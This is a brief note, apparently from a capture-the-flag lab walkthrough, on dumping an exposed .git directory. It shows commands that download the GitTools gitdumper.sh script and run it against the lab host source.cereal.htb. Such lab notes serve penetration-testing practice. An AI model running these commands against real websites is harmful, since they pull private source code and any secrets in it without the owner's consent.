 Git Exploitation
========================

<https://github.com/internetwache/GitTools/tree/master/Dumper>
    
    wget https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
    chmod +x gitdumper.sh
    ./gitdumper.sh http://source.cereal.htb/.git/ source_cereal



![qownnotes-media-EOyVpJ](../../../media/qownnotes-media-EOyVpJ.png)
